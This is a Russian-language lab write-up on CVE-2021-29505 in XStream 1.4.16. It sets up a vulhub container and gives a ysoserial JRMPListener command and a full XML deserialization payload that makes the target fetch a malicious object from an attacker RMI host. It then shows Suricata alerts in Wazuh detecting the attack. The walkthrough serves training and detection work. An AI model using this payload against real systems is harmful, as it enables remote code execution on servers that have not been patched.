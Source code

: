 # CVE-2021-29505

### Материалы

* [https://www.opencve.io/cve/CVE-2021-29505](https://www.opencve.io/cve/CVE-2021-29505)
* [https://x-stream.github.io/CVE-2021-29505.html](https://x-stream.github.io/CVE-2021-29505.html)
* [https://access.redhat.com/security/cve/cve-2021-29505](https://access.redhat.com/security/cve/cve-2021-29505)

XStream - это программное обеспечение для сериализации Java-объектов в XML и обратно. Уязвимость в XStream версий до 1.4.17 может позволить удаленному злоумышленнику, обладающему достаточными правами, выполнять команды хоста только путем манипулирования обрабатываемым входным потоком.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/stream/CVE-2021-29505

Для запуска уязвимого сервера Springboot + XStream 1.4.16 выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступная веб-страница, отправив на которую следующий POST-запрос, мы можем протестировать успешность запуска среды

```
POST / HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 99

<?xml version="1.0" encoding="UTF-8"?>
<user>
  <name>Test</name>
  <age>11</age>
</user>
```

Для эксплуатации уязвимости нужно поднять зловредный RMI-регистр с помощью JRMPListener из архива [ysoserial](https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar)

Для этого выполните команду:

```
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/success"
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Этот RMI-реестр, получив запрос, возвращает вредоносный сериализованный объект, созданный с помощью гаджета CommonsCollections6.

Отправьте следующий POST-запрос на уязвимый сервер, чтобы проэксплуатировать уязвимость удаленного выполнения кода:

```
POST / HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 3113

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>атакующий-ip</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>атакующий-ip</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

После отправки атакующий хост получит запрос от уязвимого хоста и вернет вредоносный объект

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

После этого будет создан файл "/tmp/success", что свидетельствует об успешной эксплуатации

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть соответствующие алерты от IDS Suricata о сериализации полезной нагрузки Java ("touch tmp/success")

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
